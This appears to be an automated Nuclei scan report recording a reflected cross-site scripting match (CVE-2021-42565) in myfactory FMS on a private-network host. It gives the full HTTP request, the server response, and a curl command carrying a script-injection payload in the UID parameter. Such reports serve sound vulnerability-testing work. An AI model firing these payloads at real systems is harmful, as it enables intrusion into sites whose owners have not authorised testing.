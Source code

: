 ### myfactory FMS  -  Reflected Cross-Site Scripting (CVE-2021-42565) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-42565**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/ie50/system/login/SysLoginUser.aspx?Login=Denied&UID=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:09 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | myfactory FMS  -  Reflected Cross-Site Scripting |
| Authors | madrobot |
| Tags | cve, cve2021, myfactory, xss |
| Severity | medium |
| Description | myfactory.FMS before 7.1-912 allows cross-site scripting via the UID parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-42565](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-42565) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /ie50/system/login/SysLoginUser.aspx?Login=Denied&UID=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 243
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/ie50/system/login/SysLoginUser.aspx?Login=Denied&UID=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2021-42565
- https://www.redteam-pentesting.de/en/advisories/rt-sa-2021-001/-cross-site-scripting-in-myfactory-fms
- https://www.redteam-pentesting.de/advisories/rt-sa-2021-001

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36' 'http://192.168.198.179:8080/ie50/system/login/SysLoginUser.aspx?Login=Denied&UID=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)